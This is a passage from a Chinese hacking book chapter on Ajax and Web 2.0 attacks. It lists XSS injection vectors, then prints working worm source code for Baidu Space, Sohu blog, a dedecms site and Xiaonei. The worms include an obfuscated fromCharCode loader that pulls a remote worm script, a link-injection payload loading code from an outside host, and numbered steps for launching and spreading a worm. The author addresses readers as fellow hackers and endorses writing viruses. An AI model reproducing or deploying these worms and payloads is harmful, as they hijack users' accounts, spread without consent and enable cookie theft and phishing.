- **不受信任的信息来源——**Web 2.0 应用从很多不受信任的来源（比如反馈、博客、搜索结果）中获得信息。这些内容在提供给终端浏览器之前从来没有被过滤或者转换，这就有可能引发跨站点攻击。黑客还有可能在浏览器中加载 JavaScript，以便迫使浏览器发出跨域调用并打开安全漏洞。那样的话，这些致命漏洞就能被病毒和蠕虫利用。这个漏洞简单来说就是没有对我们输入的内容进行检查，导致我们在网站中提交恶意代码，使得漏洞出现。
- **多重分散的终端点以及隐藏调用——**Web 2.0 应用与 Web 1.0 的主要区别就是信息访问机制的区别。比起它的前身 Web 1.0，Web 2.0 应用有数个 AJAX 终点。潜在的 AJAX 调用分散于整个浏览器页面，并且能够被各个事件分别调用。开发者很难应付 AJAX 调用的这种分散性，并且由于这些调用是隐藏的、不那么明显，它还可能导致代码不规范。
- **动态脚本构成和执行——**AJAX 会建立一个后端通道，从服务器获取数据，然后将它传送给 DOM。实现这一点的必要条件就是动态地执行 JavaScript，以便随时更新 DOM 或者浏览器页面缓存的状态。AJAX 通过调用定制的功能或者 `eval()` 功能。未经认证的内容或者使用不安全的调用，轻则导致会话内容泄露，重则迫使浏览器执行恶意内容等各种后果。

基于 Ajax 的程序漏洞出现的原因，就是上面的一种或者多种。如果程序员在开发程序的时候没有注意到上述四个问题，那么就会出现安全漏洞，我们就有机可乘了。下面的十个安全漏洞，就是对上面四个漏洞成因的最好例子。

###### 1）畸形的 JS 对象序列

通过前面的学习，我们都已经知道 JavaScript 是支持面向对象编程（OOP）技术的。它有很多不同的内置对象，也允许用户自己创建对象。使用者可以用 `new Object()` 或者自己编写如下代码来创建新的对象。假设我们编写如下代码：

```javascript
message = {
From : "zengyunhao",
To : "zengyunhao",

Subject : "<script>alert(\"cmd\")</script>",
BODY : "XSS",
Showsubject : Function(){document.write(this.Subject)}
};
```

这是一个简单的消息对象，其中有 2 个字段：发送人和接收人。我们可以使用 Ajax 来将该对象序列化并用 JavaScript 代码编译。我们可以将这段程序赋值到变量或者函数 `eval()` 中。在这里，我们在主题中写入的是一段跨站代码，那么接收人打开收件时将可能产生跨站攻击，典型的就是前面我们在分析论坛时所提供的那个发送邮件功能。JS 对象既包含数据也包含方法。对 JS 对象序列的不当使用，将产生可被诡计多端的注入代码利用的安全漏洞。

###### 2）JSON 注入

JavaScript 对象符号（JSON）是一个简单而有效的少量数据交换格式，它包含对象、数组、Hash 表、向量以及列表数据结构。JavaScript、Python、C、C++、C# 和 Perl 等语言都支持 JSON。JSON 序列在 Web 2.0 应用中是个非常有效的交换机制。开发者频繁使用 AJAX 和 JSON，获取并传送必要的信息给 DOM。下面是个简单的带有不同 NAME 值对的 JSON 对象：“BOOKMARKS” 对象。

```json
{"BOOKMARKS":[{"http://www.muma.com/muma.html":"EXAMPLE.COM","<script>alert(\"cmd\")</script>":"INTERESTING LINK"}]}
```

这样我们就可以在 LINK 或者 DESC 中注入恶意脚本。例如在上面代码中，我填入了我的木马地址，同时还加入了跨站代码。如果 DOM 和可执行程序被注入了，XSS 目录也会被注入。这样浏览了这个页面的用户就会中木马，同时发生跨站。

###### 3）JS 数组中毒

JS 数组是另一个比较普遍的序列化对象。程序员可以很容易地跨平台移植它，并且它在使用不同语言的结构中也很有效。感染一个 JS 数组可以扰乱整个 DOM 环境。这样我们就可以在浏览器中使用简单的跨站点脚本攻击 JS 数组。下面是一个 JS 数组的例子：

```javascript
new Array("blog", "link", "username", "password", "code", "computer")
```

这个数组是我在一个博客上看到的，如果这个数组对象在服务器端没有被仔细处理，那么我们就可以在最后字段中注入脚本。例如把它改成：

`new Array("blog", "link", "username", "password", "code", "<script>alert(\"cmd\")</script>")`

就会发生跨站攻击。这种注入将危及浏览器安全并被攻击者利用。

###### 4）修改 XML 中的数据流

Ajax 调用接受来自多个地址的 XML。这些 XML 块来自运行在 SOAP、REST 或者 XML-RPC 的网络服务。这些网络服务是由从第三方代理桥那里接收过来的。如果这些第三方 XML 数据流被攻击者修改过，那么攻击者就可能向其中注入恶意内容。

浏览器从它自带的 XML 解析器接收该数据流。该解析器容易受不同的 XML 炸弹攻击。我们也可以在该数据流中注入脚本，这样就可以导致跨站点脚本攻击（XSS）。浏览器接收未经认证的 XML 数据流的话，这就会危及终端客户端的安全。

###### 5）DOM 中脚本注入

前四个漏洞都是由于序列化问题引起的。一旦浏览器收到序列化的对象数据流，开发者会发出某种调用来访问 DOM。这种调用的目的是将新内容“重写”或者“重填”入 DOM 中，可以调用 `eval()` 这个定制功能，也可以使用 `document.write`。如果这些调用是在不受信任信息流上进行的，浏览器就有可能由于 DOM 的操作漏洞而受攻击。攻击者可以用很多 `document.*()` 调用来向 DOM 环境中注入 XSS。

```javascript
document.write(PRODUCT-REVIEW)
```

在这里，“PRODUCT-REVIEW”是从第三方网站上获得的变量。如果它含有 JavaScript 会怎样？答案很明显：这个 JavaScript 就会被浏览器运行，那么我们又可以进行攻击了。

###### 6）跨域访问和回调

Ajax 不能从浏览器中进行跨域访问。所有比较流行的浏览器都有个安全特性，那就是拦截跨域访问。一些网站服务为对象序列提供回调功能。程序员可以使用这个功能来把网站服务整合到浏览器本身。人们可以把该功能命名为“传回”，这样浏览器一找到回调对象数据流，它就会由浏览器中早已有的特殊函数名执行。

这个回调对使用浏览器内认证的开发者来说是个额外负担。如果输入的对象数据流未经浏览器认证，那么终端客户端就会成为跨域攻击的目标。不管是有意还是无意的，跨域服务可以向浏览器中注入恶意内容。该跨域调用在当前 DOM 环境中运行，于是导致当前会话也易受攻击。在实现应用之前，人们需要仔细检查整个跨域功能。

###### 7）RSS 和 ATOM 注入

联合反馈、RSS 以及 ATOM，是最普遍的一种将站点更新信息传到网络上的方法。许多新闻、博客、门户站点等等，都在网络上共享多个反馈。反馈是标准的 XML 文档，并且可以被任何程序接收。Web 2.0 应用使用窗口小部件或者浏览器内部元件整合了联合反馈。这些组件调用 AJAX 来访问反馈。

这些反馈可以被终端用户方便地选择。一旦用户选择了它们，这些反馈就会被解析并注入到 DOM 中。那么如果这个反馈在注入之前没有被适当地认证过，就会出现一些安全问题。人们可以在浏览器中注入恶意链接或者 JavaScript 代码。注入之后，就大事不妙了，最终结果是 XSS 和会话被黑客拦截。

###### 8）单击炸弹

Ajax 的应用要被简单攻破也不是那么容易，但我们可以对它进行基于事件的注入。我们可以将带有 “onClick” 字样的恶意链接用 JavaScript 注入。这样，浏览器就带着个随时等待终端用户点击来触发的炸弹。一旦用户点击了链接或按钮，能够启动炸弹的那个事件被启动了，那么攻击就成功了。此类攻击会导致会话被恶意代码拦截。

这也是由于人们从那些没有经过正确验证的不受信任源处获得信息所导致的安全漏洞。为了利用该安全漏洞，它需要终端客户端触发一个事件。这个事件也许是诸如点击按钮或者链接这种无害事件，但是点击后就会使用户损失惨重。它可能引起某个恶意事件，将当前会话信息发送给目标，又或者在当前浏览器环境中执行一系列脚本攻击。

###### 9）基于 Flash 的跨域访问

我们可以使用 Flash 插件的 Ajax 接口，从而用浏览器中的 JavaScript 发出 GET 和 POST 请求。这个接口使我们能进行跨域调用。为了避免安全问题，该 Flash 插件实现了根据策略访问其他域的功能。该策略可以通过在域的根部放置 `crossdomain.xml` 文件来配置。如果放置的文件配置不当——很普遍的现象——它就可能允许跨域访问。下面是一个配置不当的 XML 文档：

```xml
<cross-domain-policy>
    <allow-access-from domain="*"/>
</cross-domain-policy>
```

我们可以看到 `domain="*"`，这个 XML 文件没有配置好，所以现在可以从浏览器自身发出跨域调用了。这个结构还有一些其他安全问题。基于 Flash 的丰富网络应用（RIA）如果配置错误的话，很容易由于 Ajax 的跨域访问 Bug 而被攻击。

###### 10）XSRF

跨站请求伪造（XSRF）是个老牌的攻击向量了，它迫使浏览器向不同的域发出 HTTP GET 或者 POST 请求；这些请求可以跨域在运行的应用逻辑中启动某种事件。它可能请求修改密码或者电子邮件地址等。浏览器调用它后，它重放 Cookie 并获得身份认证。这就是该请求的关键部分。如果某个应用只根据 Cookie 来辨识身份，那么该攻击就会成功。

Web 2.0 中 AJAX 是就 XML-RPC、SOAP 或者 REST 与后端网络服务进行对话的，通过 GET 和 POST 可以进行这些调用。换句话说，人们可以对这些网络服务进行跨站点调用，从而危及受害者与网络服务接口的身份信息。XSRF 这个攻击向量很有趣，它在这个新界定的端点情况中创造了新的层次。这些终点可能是为 Ajax 或者网络服务而准备的，但它们也有可能被跨域请求所激活。

##### 结论

Web 2.0 应用有多个终端点，每个点都是威胁的侵入点。为了保证安全，应当保护好所有这些点。在将第三方信息发送给客户端之前，要对其进行彻底处理。

为了处理 Ajax 序列，必须在它们到达 DOM 之前对输入数据流进行验证。XML 解析以及跨域安全问题也需要额外重视，并实施更好的安全管理措施。我们应当遵循那个最简单最笨拙的原则：不让未经认证的跨域信息进入浏览器。不过这个认证一定要在服务端进行验证，如果是客户端验证的话，我们可以轻易地绕过它继续攻击。

##### 2. 百度空间的 Ajax 蠕虫病毒分析

在 2006 年 7 月份的时候，百度开通了百度空间，这个空间采用了 Web 2.0 中的关键技术 Ajax。因为百度的开发人员在开发时未对输入的变量做较好的过滤，特别是在用户提交的 CSS 中的数据未检测，导致可以在里面插入 JavaScript 代码。最终，出现了利用该漏洞的蠕虫病毒。导致浏览了被插入该蠕虫病毒的页面后，就会发生跨站攻击，同时将该页面加入到自己空间的友情链接中。

下面就是这个蠕虫病毒完整代码。下面我们来分析一下，在 Ajax 中是如何编写蠕虫病毒的：

```javascript
#header{height:89px;background:url("javascript:document.body.onload=function(){
//因为是 CSS 文件中未过滤，所以就在该文件中插入以下的 JavaScript 代码
var req = null;
if(window.XMLHttpRequest) req = new XMLHttpRequest();
//先建立 XMLHttpRequest 对象，同时判断浏览器类型是否为 IE
else if(window.ActiveXObject){
  var msxml = new Array('MSXML2.XMLHTTP.5.0', 'MSXML2.XMLHTTP.4.0',
  'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP', 'Microsoft.XMLHTTP');
  //建立一个数组，数组中为不同 IE 浏览器版本所要建立的对象名
  for(var i=0;i<msxml.length;i++){try{req = new ActiveXObject(msxml[i]);break;}catch(e){}}
  //利用一个 for 循环，用一个异常处理来建立 XMLHttpRequest 对象
  try{req.overrideMimeType('text/xml')}catch(e){}
}
//设置发送数据包的编码类型为 text/xml
req.open('get','.',false);      //利用 get 方法发送数据
req.send();
var s=req.responseText;         //将客户端接收到的 HTTP 响应的文本内容赋给变量 s
p=s.indexOf('passport.baidu.com/?logout'); //建立一个索引
if(p>0){
  p=s.indexOf('<strong>');
  if(p>0){
    p=s.indexOf('/',p);   //下面是声明的一些变量
  }
}
```

```javascript
p2=s.indexOf(String.fromCharCode(34),p);
var user=s.substring(p+1,p2);  //用于获取浏览当前页面的用户的用户名
var name='Here is a bad site';
var link='目标网址';
var desc='This link was added by an XSS script';
var url='/' +user+'/commit';  //建立当前所要发送数据的 URL
var
data='ct=6&cm=1&spRef='+escape('http://hi.baidu.com/'+user)+'%2Fmodify%2Fbuddylink%2F0&spBuddyName='+escape(name)+'&spBuddyURL='+escape(link)+'&spBuddyIntro='+escape(desc);
//通过将上面获得的数据全部经过编码后赋给变量 data
req.open('post',url,false);  //向变量 url 中发送数据
req.send(data);
//发送的数据为 data，data 的功能就是将自己添加到浏览页面用户的友情链接中去
alert('A friend link has been added to your space at http://hi.baidu.com/'+user);
//弹出对话框，显示 A friend link has been added to your space at http://hi.baidu.com/+user
}
}
else{alert('You are not a logged Baidu user.');}
//如果用户没有登录就弹出对话框，并显示 You are not a logged Baidu user，当然前面的攻击就不会发生了
}
```

上面对程序简单解释了一下，下面来整理思路。因为是 CSS 文件中没有对数据进行过滤，故我们的 JavaScript 代码应该插入其中，但又要符合 CSS 的语法，所以代码应该内嵌在 `#header{}` 中。

程序首先建立 XMLHttpRequest 对象，同时判断浏览器是否为 IE。如果是 IE，则通过建立一个数组来遍历当前 IE 浏览器的版本，并根据版本建立当前的 XMLHttp。之所以这样做，是因为 `req = new XMLHttpRequest();` 的声明方式只适合于 IE7 版本，如果其他版本这样调用的话会出现错误。如下代码就是用 `req = new XMLHttpRequest();` 来建立的对象，我在 IE6 中运行后，就弹出对话框显示错误，如图 15-10 所示。

```html
<html>
<head>
<title>XMLHttpRequest</title>
<body>
<script language="javascript" type="text/javascript">
var request = false;
try {
    rep = new XMLHttpRequest();
} catch (failed) {
    request = false;
}
if (!request)
    alert("使用 rep = new XMLHttpRequest(); 建立对象在 IE6 中不成功");
```

```html
else
    alert("使用 rep = new XMLHttpRequest(); 建立对象在 IE6 中不成功");
</script>
</body>
</head>
</html>
```

图 15-10 显示错误

现在大家就明白了，在不同的 IE 浏览器版本中建立 XMLHttpRequest 对象的方法是不同的，否则会出错。这就是为什么要判断版本的原因。

在建立对象之后，通过向本页发送空数据，并获得返回 HTTP 响应的文本内容，之后在这些内容中建立索引，从中找出一些数据，比如浏览当前页面的用户的用户名，以及他的一些空间信息。

在获得这些数据之后，对其进行编码，其中编码出来的那个变量 data 的功能就是实现将自己添加到浏览当前页面的用户的友情链接。最后利用 send 和 open 方法将这些数据发送出去，这样就实现了将自己添加到浏览当前页面的用户的友情链接中。同时还弹出一个对话框。

当然，上面的代码都是针对已经登录了百度空间的用户来攻击的，很多时候还有很多人在浏览的时候并未登录。对于未登录的用户浏览当前页面，则是弹出一个对话框，里面显示 You are not a logged Baidu user。

这就是攻击百度空间的蠕虫病毒的源码分析，是不是感觉到很简单呢？其实这个蠕虫还是比较好，没有产生什么恶意的攻击性。如果这个蠕虫实现的功能是在里面插入一个木马，同时还将这些恶意代码发送到浏览该页面的用户的空间的 CSS 文件中，那么浏览了他的空间的人又将中马，那么就实现了木马的主动传播了。这个危害性才是够大的，当然这里并不是教大家如何去破坏。只是希望大家能够活学活用，从我个人的角度来说，写一些没有破坏力的病毒还是比较支持的，毕竟编写病毒是证明你编程水平到达一定水平的重要证明之一。不过千万不要破坏，国内这方面的法律也已经逐渐完善了。

这就是本章对 Web 2.0 下的黑客技术做的一个简单介绍。对于 Web 2.0，在国内目前的网站还是非常少，它的潜力非常大。相信过两年将到处是 Web 2.0 的网站了。当然 Web 2.0 下的语言不仅仅是 Ajax，还有目前逐渐在流行的 Ruby 等等。

在看完了本书之后，希望各位黑友能够继续对 Web 2.0 进行研究。首先肯定是要对其下的主流语言先熟悉，然后就可以分析程序的漏洞了，争取走在 Web 2.0 在国内成为主流之前精通它，这样当在国内流行时，我们又掌控 Web 环境的天下了。

### 15.3 Ajax 蠕虫实战

### 15.3.1 Ajax_sohu 博客的一个小蠕虫

目前 sohu 博客出了一个跨站漏洞：

```html
<!--[if IE]>

<![endif]-->
```

本文就讲述如何在 Web2.0 下的网站中利用 XSS 漏洞来编写一个蠕虫。一般的 ajax xss 无非就是类似：

```javascript
var url = "http://www.xxx.com/xx.do"
var xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
xmlhttp.open("GET", url+"参数", false);
xmlhttp.send();
```

的类型。那么我们来做一个感染的，自动添加友情链接，我们先抓个包。如图 15-11 所示：

图 15-11

然后我们写一段 ajax：

```html
<!--[if IE]>
<script src=javascript:var xmlhttp;
function createXMLHttpRequest(){
if(window.ActiveXObject)
{
    xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}
else if (window.XMLHttpRequest){
    xmlhttp=new XMLHttpRequest();
}
}   //创建一个 xmlhttp 对象

Function xiaoshuai()
{
createXMLHttpRequest();
XMLHttpRequestObject.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  //别忘了这句话
xmlHttp.open("post","/manage/module.do",false);
xmlHttp.send(escape("m=update&id=m_30988476&type=my_links&title=&data=%7B%22linkList%22%3A%5B%7B%22tit%22%3A%22username1%22%2C%22desc%22%3A%22username2%22%2C%22url%22%3A%22http%3A//www.xssor.cn/location.html%22%7D%5D%7D"));
window.document.onload='xiaoshuai();'/>
<![endif]-->
```

其中抓包的信息里，描述是 username2，连接显示是 username1，link 地址是 www.xssor.cn/location.html，你把它换成你的博客首页就好了，因为这个在首页也是可以执行的，如图 15-12 所示。

图 15-12

结尾：整个文章是从遇到了 xss 的过滤，然后到解决了过滤（借鉴了别人的办法），然后写了一小段 ajax 来感染。一个小小的蠕虫就是这么诞生的，希望能从标签开始小心地过滤了。

#### 15.3.2 Ajax 蠕虫初体验

在注册某网站后，发现其提供了强大的功能，这个站点用的是 dedecms 的。反正闲着也是闲着，看看有没有什么漏洞可以利用吧。弄了一会儿，还真被我发现了点好玩的，如图 15-13、图 15-14 所示。

图 15-13 所示

图 15-14

也许各位会说，不就是个再普通不过的跨站嘛，鸡肋。但是其是 WEB2.0 网站，可以用来写蠕虫。作为蠕虫，首要的特点当然是复制和自动传播。要想自动传播，必须要有一定的触发条件——XSS，也就是传说中的鸡肋。

世界上果然没有一帆风顺的事，想法和现实的差距为什么每次都那么大。真的没想到上次发现能 XSS 的地方居然做了字符数限制。也就是说，这个 XSS 果然是鸡肋中的鸡肋，如图 15-15 所示。

图 15-15

我在能 XSS 的地方写的是 `<Script>alert('www.hackall.cn')</Script>`，但是没有出现预料的效果，反而是代码的一部分直接被显示出来了。查看了页面的源代码才知道字符数做限制了，如图 15-16 所示。

图 15-16 网页源代码

下面就让我给大家演示下是怎么突破的吧。在网址栏里填 `,"><Script>alert('www.hackall.cn')/*`，然后在连接名称里填 `*/</Script>`，于是乎就成功突破了字符限制，添加 `/**/` 主要是为了去掉多余的干扰字符，如图 15-17 所示。

图 15-17 突破字符串长度限制

##### 自动传播是关键

蠕虫的本质就是感染。我们的蠕虫究竟怎么才能实现感染功能呢？可能大家都想到了吧。就是让每个登录的用户在浏览我的空间时，神不知鬼不觉地给他们自动添加一个 XSS 代码，过程就跟我上面的 XSS 过程一样，只不过这些都是要蠕虫自己来完成的而已。下面这个 URL 就是添加一个含 XSS 代码的友情链接：

`http://www.***.com/member/flink_main.php?dopost=addnew&title=*/</Script>&url='></a><Script src=http://www.hackall.cn/3.txt>/*`

如图 15-18、15-19 所示。

图 15-18 URL 添加脚本

图 15-19 添加后的网页源代码

只要想办法让浏览空间的登录用户去访问上面那条构造的 URL，那就不知不觉地被感染了。既然已经有思路了，那么接下来的事情也就简单化了。下面就该 XMLHttpRequest 登场咯，具体用法我就不多说了，它可是 Ajax 中的主要角色，主要的功能就是异步提交。详细代码及注释如下：

```javascript
var xmlhttp;
function xiaoman() {
if(window.XMLHttpRequest)
{
    xmlhttp = new XMLHttpRequest();
}
else if (window.ActiveXObject)
{
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}//浏览器的兼容
xmlhttp.open("get","http://www.***.com/member/flink_main.php?dopost=addnew&title=*</Script>&url='></a><Script src=http://www.hackall.cn/3.txt>/*",true);
xmlhttp.send(null);
}//感染
```

这段代码很简单，相信各位大大们都能看得懂。意思就是当登录用户在浏览我们空间的时候自动提交指定的 URL。大家可能会说那这代码应该放在哪里呢？当然是放到隐蔽的地方咯，就像我一样，把代码保存到了 http://www.hackall.cn/3.txt 中。

至于如何启动这个蠕虫嘛？大致的过程是这样的：

- 1. 首先你要把以上代码保存到一个安全的地方，至于后缀嘛，txt、gif 或是 html，随你的便。
- 2. 在自己的空间里添加一个包含 XSS 的友情链接。这句 XSS 的代码为 `<Script src=http://你的代码保存的地址></Script>`。
- 3. 最后就是把自己的空间宣传出去，这样才会有越来越多的人感染。

#### 15.3.3 跨站不仅仅是 alert()

##### 一、引子

目前所有的黑客技术中，使用最频繁的就是 XSS（Cross-Site Scripting），也就是我们常说的跨站脚本/攻击（这是一种攻击手法，当然也可以理解为一类漏洞）。从《WhiteHat Website Security Statistics Report》（附录 1）这篇报告中可以看出 XSS 的普遍与其流行程度，如图 15-20 所示：

图 15-20

探究为什么会存在跨站这个问题，没什么意义，反正它就在那里，和其他漏洞一样，跨站的产生往往都是因为程序员“懒”。假如世界上第一只 XSS WORM（Samy）没出来的话，也不会有那么多人去关注这类看似无聊的攻击手法（假如你仅仅会弹出一个框而已）。当满世界都是弹出框时，你难道不认为要来点更有趣的行动吗？

其实 XSS 在 WEB1.0 时代就已经存在，而在 WEB2.0 时代开始变得越来越有趣。根据 WEB2.0 的特性，此时的互联网是一个以用户为数据中心的 SNS 网络。比如 MySpace、百度空间、校内网、QQ 空间等，用户之间可以互相访问。假如访问时，用户保持着会话（session）并且很“幸运地”访问到了一个有 XSS 陷阱的网页，由于在同域内，XSS 陷阱就可以利用你自身的权限做你可以做的事（不要想当然了啊，这些你可以做的事是指你在某 SNS 网络上的账户权限范围内的事），比如：修改你的个人档案，删除你的日志，以你的名义又向你的好友们发送欺骗信息，并将这个 XSS 陷阱植入你的空间。完成这一系列动作也许只要几秒钟。这是蠕虫，具有传播性质的。

在开始本文重点之前，我们有必要了解一下 XSS 到底邪恶在哪，那些满世界的弹出框到底有多大价值。

##### 二、XSS 能做什么

- 按特征来划分，我将其分为三大类，各分类之间并没明显界限：
- 1. 用来跳转到不可预知的页面或执行不可预知的脚本；
- 2. 用来实现定向攻击；
- 3. 用来诞生 XSS WORM，具备传播性。

第 1 类是最普遍的，往往被用在钓鱼欺骗上。我们不能说它没技术含量，钓鱼要钓得好，那可需要很深的功底。比如我们在账户登录口做 XSS 陷阱（经典的有剑心的 Gmail 登录口陷阱（附录 2）与我的那个百度空间登录口陷阱（附录 3）），简单的例子：https://passport.baidu.com/?login&u=./?"</script><script>alert(document.cookie)//。当你打开这个链接，输入你的百度空间账户与密码登录时，会弹出你的百度空间 cookie 信息，黑客可以在第三方服务器上构造服务端程序来获取你的 cookie 信息。当真正开始钓鱼时，我们是不会去弹出框的，一切都要像平常一样……好像什么都没发生似的。当然这类也被广泛用于挂马技术上。

第 2 类主要用来实现定向攻击，比如针对性挂马、针对性盗 cookie、针对性提权、针对性发送大量垃圾信息、针对性摧毁某人的所有数据。

第 3 类的 XSS WORM 是最可爱的 :-) ，也是针对 SNS 网络的最高级报复手段。它可以综合以上提到的各类技术手段，它具备蠕虫的性质，它可以在一天之内感染 SNS 网络上的百万用户。当这样的蠕虫可以诞生时，那么只有你想不到的，没有你做不到的。它可以引发一次庞大的 DDOS 攻击，它甚至可以借助浏览器漏洞或第三方 ActiveX 漏洞将破坏带到你的系统上。

XSS WORM 是基于 WEB2.0 环境下存在的，与你使用的操作系统无关（LINUX、UNIX、WINDOWS 等）。当你关闭浏览器时，你并不会发现你的系统受到任何的影响（我假设这个 WORM 不挂马）。那么此时，你要担心的是存在于这个 SNS 网络中你的数据。好了，当你知道 XSS 能做什么的时候，是不是觉得仅仅一个弹出框是个浪费 :-) 。弹出框往往是我们确定一个站点是否有 XSS 漏洞的表现形式，弹出框并不是都没价值（但愿能在 Gmail 中来个弹出框？呵呵），后续的渗透就看你的实力了。

##### 三、校内网 XSS WORM

可惜，我的这个 0DAY 今天发现被扼杀了，前几天还测试通过。0DAY 在否已经不重要，关键的是了解这个 WORM。本来我还犹豫是否要公开这个跨站点，现在没任何后顾之忧了。这个蠕虫源码也将全部公开。那就以这个为例子，好好了解一整个渗透过程吧 :-)

渗透之前，必须熟练目标渗透环境，有什么功能模块，客户端代码逻辑等。

###### 1、XSS 导火线

我发现校内网的日志评论区存在跨站漏洞。评论是允许 UBB 码的，唯一有价值的 UBB 码是 `[link][/link]`，这个会被服务端转变为这样的形式 `<a href=""></a>`。当这样构造 UBB 码时 `[link]http://hi.baidu.com/ycosxhack” style=” [/link]`，服务端返回 `<a href="http://hi.baidu.com/ycosxhack” style=”"></a>`。没过滤双引号。于是我们就可以在 style 内执行 JavaScript 代码。style 属性内一般是写 CSS 的，不过有两种方法可以在 CSS 内执行 JS 脚本（针对 IE）。一种是 `expression(alert('hixss'))` 表达式；一种是 `background:url(javascript:alert('hixss'))` 这样的 javascript 伪协议形式。IE7 已经抛弃第二种了。为了将蠕虫影响范围扩大，我们还是用第一种。图 15-21 是一个不容易的弹出框（效果还在，但是漏洞已经被不小心补上了）。

图 15-21

我们一般会将 XSS 陷阱（蠕虫的诞生源，就是这根 XSS 导火线）变形加密，至少不能让大部分人马上就看出 XSS 陷阱的原型。变形加密还有一个原因，有时候为了不被过滤而必须这样做（类似于对我们的操作系统木马进行免杀过程）。下面就是变形加密过的 XSS 陷阱：

```text
[link]http://hi.baidu.com/ycosxhack”
style="cos:expression(eval(String.fromCharCode(105,61,34,102,117,110,99,116,105,111,110,32,108,111,97,100,40,41,123,118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,83,67,82,73,80,84,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,..."
116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,39,72,69,65,68,39,41,91,48,93,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,125,59,102,117,110,99,116,105,111,110,32,105,110,106,101,99,116,40,41,123,119,105,110,100,111,119,46,115,101,116,84,105,109,101,111,117,116,40,39,108,111,97,100,40,41,39,44,49,48,48,48,41,125,59,105,102,40,119,105,110,100,111,119,46,120,33,61,49,41,123,119,105,110,100,111,119,46,120,61,49,59,105,110,106,101,99,116,40,41,125,59,34,59,101,120,101,99,83,99,114,105,112,116,40,105,41))) [/link]
```

String.fromCharCode() 内是十进制码，解密还原后是这样的：

```javascript
i="function load(){var
x=document.createElement('SCRIPT');x.src='http://evilcos.googlepages.com/x-xiaonei-worm.js';x.defer=true;document.getElementsByTagName('HEAD')[0].appendChild(
x)};function
inject(){window.setTimeout('load()',1000)};if(window.x!=1){window.x=1;inject()}
;";execScript(i)


```

这段脚本，可比一个弹出框有意义多了 :-)。它会延时 1 秒钟后动态创建一个 `<script></script>` 标签，调用远程的 JS 文件，我们的蠕虫核心源码就在这个 JS 文件上了。将 defer 设置 true，那么这个远程的 JS 就会等待网页的其他内容加载结束后再调用。随后将这个 `<script></script>` 标签附加到网页的 `<head></head>` 标签内。这是 JS DOM 的最基本技巧，不理解的话，多百度百度，本文不可能从最基本讲起。其中 `if(window.x!=1){window.x=1;inject()}` 代码段是一个技巧，它会防止 expression 循环执行内部的 JS（expression 的特性）。于是加上这个技巧，expression 内的 JS 每次将只执行一次。

###### 2、实现 XSS WORM

在校内网这样典型的 SNS 网络中跨站成功后，要发起一个 XSS WORM 并不是一件困难的事。曾经校内网的涂鸦板（用户自定义 CSS 的地方）是可以诞生蠕虫的（附录 4）。但是现在已经加上验证码限制，你每更新一次 CSS 都要填写验证码。蠕虫要从这样的环境中诞生，几乎是不可能的，因为蠕虫要传播就必须绕过验证码的限制。但是还是可以进行一些定向攻击，让每个访问你页面的人都不知不觉执行某一段代码，完成某些功能。本文的重点不在此，还是继续前面的操作吧。

还记得前面 XSS 陷阱调用的远程 JS 吗？http://evilcos.googlepages.com/x-xiaonei-worm.js（你可以下载下来分析）。这个 JS 就是蠕虫的核心源码了。它实现的功能是：

将每位访问者的状态自动更新为“大家看看这个博客：http://hi.baidu.com/ycosxhack，然后给我留言:)”（如图 15-22 所示）。接着帮助访问者发表一篇最新的文章，文章名为“3.7 维度 :--(”；内容为“离散值，可惜你看到的是乱码。”。最后会在这篇最新的文章下发表评论，评论的内容就是我们的 XSS 陷阱 :->。于是这位访问者的好友们看到他的文章时，这个

##### XSS WORM 示例源码

XSS 陷阱又开始重复上面这个动作。一个蠕虫就这样传播开了，这样的增长趋势将会越来越大。如图 15-22 所示。
图 15-23

下面的代码没有任何破坏性 :-)。要来点破坏的，那实在太容易了。本文目的是让大家了解 XSS WORM，让大家知道跨站其实可以这样，而不会手把手地教你做坏事。下面就来看看源码。代码不多，但是很经典。看注释：

```javascript
var _x=false;
if(window.XMLHttpRequest){
  _x=new XMLHttpRequest(); //针对 FF 创建 XMLHttpRequest 对象
}else if(window.ActiveXObject){
  _x=new ActiveXObject("Msxml2.XMLHTTP"); //针对 IE 不同版本创建 XMLHttpRequest 对象
  if(!_x){ _x=new ActiveXObject("Microsoft.XMLHTTP"); }
}

//习惯性地针对 FF 与 IE 浏览器分别创建 XMLHttpRequest 对象，虽然此蠕虫仅在 IE 下得到支持
new_state();

//自动更新每位访问者的状态
function new_state(){
  var _w="\u5927\u5bb6\u770b\u770b\u8fd9\u4e2a\u535a\u5ba2\uff1a\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0068\u0069\u002e\u0062\u0061\u0069\u0064\u0075\u002e\u0063\u006f\u006d\u002f\u0079\u0063\u006f\u0073\u0078\u0068\u0061\u0063\u006b\uff0c\u7136\u540e\u7ed9\u6211\u7559\u8a00\uff1a\uff09";
  //这里是你希望更新状态的值，进行了 16 进制双字节编码，防止出现乱码
  var _4=new Ajax.Request("doing.do", {method:"post", parameters:"c="+_w, onComplete:_1, onFailure:_1});
  //借用校内网自带的 Ajax 库来完成异步更新状态值，多方便啊 :-) 更新成功后（onComplete），将调用 _1() 函数（见下面）
}

//_2() 函数将实现自动发表评论的功能，这个评论内容就是我们的 XSS 陷阱了
function _2(){
  var txt=_3or7("GET","http://blog.xiaonei.com/MyBlog.do",null);
  //使用 _3or7 函数（见下面）来获取目标 url 的返回数据，即所有的 HTML 码。
  re=/\<td class=\"title\"\>\<a href=\"http:\/\/blog\.xiaonei\.com\/GetEntry\.do\?id=(.*?)&owner=(.*?)\"/i;
  //使用正则表达式来获取目标值，这里指 id 与 owner 的值
  r = txt.match(re);
  //match 匹配后返回目标值的数组形式
  src="http://blog.xiaonei.com/PostComment.do";
  //表单值的提交地址，即一个表单<form></form>的 action 地址
